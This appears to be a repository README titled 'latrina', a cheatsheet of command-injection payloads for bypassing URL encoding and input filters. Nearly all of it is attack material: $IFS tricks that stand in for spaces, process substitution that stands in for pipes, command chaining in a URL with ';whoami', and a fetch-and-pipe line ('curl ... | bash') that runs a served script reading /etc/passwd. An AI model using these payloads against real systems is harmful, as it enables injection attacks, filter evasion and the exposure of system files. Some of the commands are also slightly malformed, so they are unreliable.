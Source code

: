 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit (localhost/bin/bash)
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost/$0 | bash`
